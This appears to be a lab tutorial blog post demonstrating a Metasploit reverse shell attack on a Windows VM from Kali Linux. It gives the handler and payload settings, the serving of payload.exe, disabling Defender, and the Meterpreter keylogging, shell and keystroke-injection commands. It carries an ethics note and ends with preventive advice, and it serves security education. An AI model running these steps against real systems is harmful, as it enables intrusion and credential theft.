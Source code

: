 
## Demonstrating a Reverse Shell Attack

A reverse shell attack exploits vulnerabilities in a target system, allowing the attacker to gain remote access and control over the victim’s computer. It involves establishing a shell session by opening communication channels between the attacker’s machine and the target system.

**Note:** Throughout this project, it is essential to adhere to ethical standards and avoid engaging in any illegal or malicious activities. The primary purpose is to learn about potential vulnerabilities and attack vectors to enhance protection against them.

## Part One

## Setting Up the Attack Machine:

1. Open the Kali Linux attack virtual machine and note its IP address (e.g., 10.60.0.7).
![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*4nYZBjdSfq77fqccN7Zu8Q.png)

2\. In the terminal, execute the “msfvenom” script to create a standalone payload as an executable file. Verify that the payload setup is successful.

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*EAgsPIQvJE2OGCja68t6dw.png)

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*wJfvJ8RFsEl9wsh0wH2OEA.png)

3\. Navigate to the home directory by typing “cd ~” in the terminal.

4\. Create a web file server on port 80 with the payload.exe directory by running the command “python -m http.server 80”.

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*u2aNhASqc9PefXiwBrHdSQ.png)

## Part Two

## Configuring the Metasploit Framework:

1. Open a new terminal and start the Metasploit Framework console by typing “msfconsole”.
![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*aiSfMZC5P21AOZ_a-LUWzg.png)

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*tE1NAwJHEaKXHQs35NmKJg.png)

2\. Once the console is ready, use the command “use multi/handler” to handle exploits launched outside the framework.

3\. Configure the “exploit(multi/handler)” module with the same settings as the generated executable file by setting the payload, local host (LHOST), and local port (LPORT).

> *Type* ***set payload windows/meterpreter/reverse\_tcp*** *to set the payload.*
> 
> *Type set* ***LHOST 10.60.0.7*** *to set the local host to the Kali attack machine’s IP address.*
> 
> *Type* ***set LPORT 4444*** *to set the local port as the same port made in the executable file.*

4\. Confirm that everything is set up correctly by entering the command “exploit” to start the server on the meterpreter, waiting for the payload connection.

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*c4OhK1vHz3gDr9elelrFYA.png)

## Part Three

## Preparing the Victim Machine:

1. Disable Real-time protection on the Windows victim machine.
![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*_kelBH5FTj-Hd0iZdO-_0w.png)

2\. Open Microsoft Edge on the victim machine.

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*MDuj_chgxkFVblMjROVVyA.png)

3\. In the browser tab, type the IP address of the Kali machine (e.g., 10.60.0.7).

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*dSJTsOfF6uKEvQvh-MXqOg.png)

4\. Access the HTTP web server directory and locate the payload.exe file.

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*GYQiLfvnBLQYHSsAXGO-iA.png)

5\. Click on payload.exe and proceed through any download caution notifications, keeping the file and allowing it to run.

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*-02hDePRP2jBRRG5BuicUg.png)

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*k9Dd0sJLafjsyy8KHTErsg.png)

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*S34FVmgkcO6lRHE1RTzk6g.png)

## Part Four

## Establishing a Meterpreter Session:

Once the payload is executed, a request is made to the Kali machine, which will acknowledge and create a Meterpreter session.

This Meterpreter session will have complete control over the Windows victim machine.

1. After executing the payload, the Kali machine receives a request and creates a Meterpreter session with the Windows victim machine.
2. Take note of the Meterpreter session number, which displays the IP address of the Windows victim machine (e.g., 10.60.0.8).
![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*-CKN9WtT1Ur8JrxjryZgvw.png)

Meterpreter session 1 opened. Windows victim machine has IP address 10.60.0.8.

3\. Explore the available commands by typing “help” in the Meterpreter session.

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*PH-DRm7_vvc2DbFUCm1eEg.png)

4\. Start the keystroke sniffer by using the command “keyscan\_start”.

5\. Perform keystrokes on the Windows machine, such as typing in Microsoft Edge or entering login credentials.

> *Open* ***Microsoft Edge*** *on the Windows victim machine and type anything: I typed “My password is letmein123”.*
> 
> *Open a login page and type a* ***fake username and password****: I typed “usernameisjohn” and “password1234”.*

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*pRbGLbm7_QRXrePlBwARtA.png)

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*7a015L6uGoNFkbAUxI26DA.png)

6\. Use the command “keyscan\_dump” to reveal the logged keystrokes.

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*YAR5RwApGFnYSgDkpvmYaw.png)

7\. Stop the keystroke sniffer by entering “keyscan\_stop”.

For a Reverse Shell attack, type **Shell** on the meterpreter session.

A Channel 1 shell was created into the Windows machine.

## Part Five

## Performing Reverse Shell Attack:

1. Execute a reverse shell attack by typing “shell” in the Meterpreter session.
2. A Channel 1 shell will be created within the Windows machine, giving control to the attacker.

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*xuhDVbhWV6RMG9HB3IPKpQ.png)

3\. Open Microsoft Edge by entering the command “start msedge.exe”.

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*z9lUa4T_XsqiMaNEhsm8qQ.png)

4\. Utilize the shell to perform various actions, such as opening file explorer or running executable files.

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*kgakfuNmwIO2I-EKa8gdDA.png)

5\. Exit from the shell by typing “exit”.

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*NC_Wxjm2Gte1afTuHoWePg.png)

6\. Use the command “keyboard\_send google.com” to automatically type in “google.com”.

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*gopGXOKzBdzB3LEyOyzMZg.png)

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*t0KMPfsqgRZfCZANm8B_DQ.png)

7\. Specify an event (e.g., Enter) by typing “keyevent <event\_number>” and pressing Enter.

> *To specify which event you want, you have to type an event.*
> 
> *Type* ***keyevent 13*** *and click* ***Enter.***
> 
> *The number “13” indicates an enter which will select Enter on the Windows machine and open the webpage.*

8\. The specified event will be executed on the Windows machine, such as opening a webpage.

9\. Use the command “keyboard\_send” to send keyboard input.

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*M8M8CjEEF_uhxIIAz0U1Lg.png)

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*avod6ZLRj-DxclO1HP0_Pg.png)

10\. Re-enter the shell by typing “shell” and press Enter.

11\. Close Microsoft Edge by executing the command “TASKKILL /F /IM msedge.exe”.

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*MlE-EP1rauV85C04ZGXpBw.png)

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*Qdt66VEeokcZPRgKzbhS-g.png)

## Conclusion

We just performed a reverse shell attack using Metasploit Framework to gain access to the Windows 10 target machine from the Kali Linux attacker.

With Windows Real-time protection turned off, the attacking machine could gain access to the target machine.

Preventative measures you can take to help prevent an attacker from infiltrating your system include but are not limited to not turning off your Windows Defender or virus protection, keeping up to date with patch management, conducting vulnerability scans that could reveal open ports in network infrastructure, and firewall configurations.